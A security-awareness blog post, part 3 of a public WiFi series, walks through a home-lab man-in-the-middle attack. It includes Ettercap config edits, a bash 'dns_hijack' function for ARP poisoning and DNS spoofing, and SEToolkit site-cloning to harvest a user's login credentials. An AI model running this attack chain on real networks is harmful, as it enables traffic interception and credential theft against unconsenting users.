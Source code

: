 ```yaml
---
layout: post
title:  "The Myths Of Public WiFi - Pt3. Is HTTP Is Safe If You Don't Log In?"
date:   2018-11-22 14:56:03 -0400
categories: jekyll update
---
```


<br>[Part 2 (Can Your Private Information Be Stolen?)][part-2]

<b>Legal Disclosure: Don't do this on networks other than your own without written consent from the network administrator. Otherwise, you would be committing an illegal act.</b>

In our last article, we learned how sensitive login information can be compromised. We can infer that just about any private input can be monitored if the traffic is unencrypted. But what if we have nothing to hide? If we have nothing to hide, then it should follow that we should have nothing to fear. While this line of reasoning is common among the tech consumers and even security professionals, the next two articles will prove the risk involved with running static HTTP pages.

<b>Roadmap</b>

-Answering basic questions

-Modifying our ARP poisoned (Ettercap) config files to allow DNS spoofing.

-Modifying our site cloner (SEToolkit) config file for HTTP.

-Using Wireshark to see what websites the user is using.

-Writing a script to automatically poison and spoof the domain that the victim is visiting.

-Make a fake copy of the target website.

<b>What is a DNS and why is it important?</b>

You may have heard network technicians throw the term around. The concept is very simple. No one wants to remember phone numbers. We create contact lists and call people by tapping their name. A DNS is a contact list for IP's. For example, the google.com domain in my area is 216.58.192.174. If you want to see a web domain's IP address, simply type

{% highlight ruby %}
nslookup example.com
{% endhighlight %}

A DNS is important to the attacker. The attacker can change the IP location of a domain to his own computer. This means that instead of loading example.com at 93.184.216.34, example.com will go to 192.168.1.4 (or whatever your local IP is). This means the attacker can create a phishing page, or even execute malicious code. Even if the viewer is reading the .com]], simply clicking on something on within the website could bring up a fake Facebook login page. While the more security conscious people will immediately see the suspicious cause and effect relationship, the transition is so seamless that the average user will just assume his browser "glitched" and he will simply have to log in again. While services like Facebook have Two Factor Authentication, a [sophisticated attacker][2FA] can create a phish for that as well.

<b>Can HTTPS be redirected?</b>

There are plenty of articles and tutorials that claim to have broken HTTPS with tools like SSLStrip. But as I mentioned before, this tactic is useless. HTTPS not only encrypts, but modern browsers use a complex verification process to protect against redirecting to fake IP's.

<b>Monitoring traffic in real time</b>

As the attacker, you will need to know what HTTP websites the user is visiting before setting up the attack. In the past, we have used tshark in order to save capture files for later viewing. DNS hijacking will require real-time traffic monitoring so we know which domain to spoof. Just as before, poison the arp tables and filter the traffic while it is running.

{% highlight ruby %}
poison
{% endhighlight %}

You will need to open up Wireshark while the victim's traffic is being routed through your computer. Open a new terminal tab and type

{% highlight ruby %}
sudo wireshark
{% endhighlight %}

Depending on how you set up Wireshark upon the first install, you may receive an error that looks like this. Simply accept it, then click the blue fin in the upper left to begin the live capture process.

![image tooltip](/blog/images/wifi/wiresharkwarning.JPG)

As the traffic is flooding in, type "dns" into the filter. Once you have a good idea of what the victim is browsing, you can stop Wireshark then quit the Ettercap poison script by pressing q. Once you have a good idea of what he or she is browsing, you can put in our custom hijack commands. This is what a real life scenero would look like. Since we are on our home network where everything is legal, we must first set up the operation. For now we are just going to assume our target is playing neopets.com while doing work for his employer over the web. We will assume he uses the same username and password for both accounts.

<b>Setting up the initial files</b>

We need to start by modifying a few configuration files for Ettercap. The first is etter.conf which is the config file that holds all the Ettercap settings. The next is etter.dns which is our DNS contact list. Once we are finished with that, we will configure the SEToolkit config file.

{% highlight ruby %}
#Start by making a backup copy of etter.conf and etter.dns

sudo cp /etc/ettercap/etter.conf /etc/ettercap/etter.original.conf
sudo cp /etc/ettercap/etter.dns /etc/ettercap/etter.original.dns

#Make a blank modified version of etter.conf
sudo cp /etc/ettercap/etter.conf /etc/ettercap/etter.hijack.conf
sudo cp /etc/ettercap/etter.dns /etc/ettercap/etter.blank.dns
{% endhighlight %}

First, edit the DNS file. And by edit, I mean make a blank copy.

{% highlight ruby %}
sudo nano /etc/ettercap/etter.blank.dns
#Once the file is open, press Ctrl+K until all the lines are deleted and the entire file is empty
#Press Ctrl+O to save out. Then Ctrl+X to exit
{% endhighlight %}

Now we need to modify the hijacked config file. We will address 4 specific lines.

{% highlight ruby %}
sudo nano /etc/ettercap/etter.hijack.conf
{% endhighlight %}

Now that we are inside the file, look for the following lines and change their value to zero

{% highlight ruby %}
ec_uid = 0                # nobody is the default
ec_gid = 0                # nobody is the default
{% endhighlight %}

This means Ettercap has the privileges to write data. The default is 65534 (nobody)

Press Ctrl+O to save out. Then Ctrl+X to exit

Next, configure our site cloning tool SEToolkit.

{% highlight ruby %}
sudo nano /etc/ettercap/set.config
{% endhighlight %}

Press Ctrl+W and type "APACHE" and make the following changes

{% highlight ruby %}
APACHE_SERVER = ON
APACHE_DIRECTORY=/var/www/html
{% endhighlight %}

Save with Ctrl+O and exit with Ctrl+X.

<b>Making life easier with the .bashrc file</b>

The first thing we will need to do is create an environment variable. You may have noticed a few at the top already. This new one will be able to hold multiple values in case we want to attack multiple domains. I will add in example.com just to demonstrate, but today we will only need to worry about neopets.com.

{% highlight ruby %}
dns_hijack_target=('example.com' 'neopets.com' );
#We can add as many sites as we want. Seperated by spaces.
{% endhighlight %}

Now go to the bottom of all your functions and add the following

{% highlight ruby %}
function dns_hijack ()
{
#forward IP
sudo sysctl -w net.ipv4.ip_forward=1;

#copies the modified files
sudo rm /etc/ettercap/etter.conf;
sudo cp /etc/ettercap/etter.hijack.conf /etc/ettercap/etter.conf;
sudo rm /etc/ettercap/etter.dns;
sudo cp /etc/ettercap/etter.blank.dns /etc/ettercap/etter.dns;

#adds all the domains in $dns_hijack_target to the blank DNS file.
for ((i = 0; i < ${#dns_hijack_target[@]}; i++))
        do
        echo ${dns_hijack_target[i]}"      A   "$myIP | sudo tee -a /etc/ettercap/etter.dns; 
        echo "*."${dns_hijack_target[i]}"    A   "$myIP | sudo tee -a /etc/ettercap/etter.dns;
        done

#opens a webserver
sudo systemctl start apache2;

#poisons the ARP table using the DNS spoof plugin (-P dns_spoof)
sudo ettercap -T -i $adp -P dns_spoof -M arp:remote /$targetIP// /$gatewayIP//;

#when the operation is complete, the script will automaticly close the server and turn off IP forwarding.
sudo systemctl stop apache2;
sudo sysctl -w net.ipv4.ip_forward=0;
}
{% endhighlight %}

Press Ctrl+O to save out. Then Ctrl+X to exit. Exit out of the terminal in order to have the changes take effect.

<b>Test</b>

Start by running the command we just created

{% highlight ruby %}
dns_hijack
{% endhighlight %}

Go into your Windows VM and access your attacking VM's local IP. For example, mine is 192.168.1.4. You should see something that looks like this. It means your web server is working

![image tooltip](/blog/images/wifi/apache200.JPG)

Now access example.com

If you see the same thing, then this means the redirect is working as well.

<b>Clone the target login form</b>

Next we will need to make a copy of the neopets.com website. Open terminal and type

{% highlight ruby %}
sudo setoolkit

#Once inside, choose these options in order
(1) Social-Engineering Attacks
(2) Website Attack Vectors
(3) Credential Harvester Attack Method
(2) Site Cloner
{% endhighlight %}

In your Windows VM, go to neopets.com and log in. Once that is done, SEToolkit will send display the credentials in the terminal window.

Go to your /var/www/html directory and open the harvester text file. You should see the login credentials displayed as well.

<b>Conclusion</b>

Websites that use HTTP can still be vulnurable to phishing scams. Even if the attacker is not trying to phish for the user credentials, he could still make a page that executes mallicious code. This attack will only work if the user does not notice how little sense it makes for a link on an http website to redirect to a login page on a different service alltogether. Half the population will proborbly fall for this, but I have not run the study myself due to obvious legal concerns. The DNS redirect attack I just described will only work if you already know what HTTP websites the user is currently browsing.

[Part 4 (If I See The Lock In My Browser's URL, Does That Mean I'm Safe?)][part-4]

[part-1]: https://danielloosec.github.io/blog/jekyll/update/2018/11/22/PublicWifiMyths_Part_1.html
[part-4]: https://danielloosec.github.io/blog/jekyll/update/2018/11/22/PublicWifiMyths_Part_4.html
[reddit.com]: http://www.reddit.com
[part-2]: https://danielloosec.github.io/blog/jekyll/update/2018/11/22/PublicWifiMyths_Part_2.html
[2FA]:https://youtu.be/xaOX8DS-Cto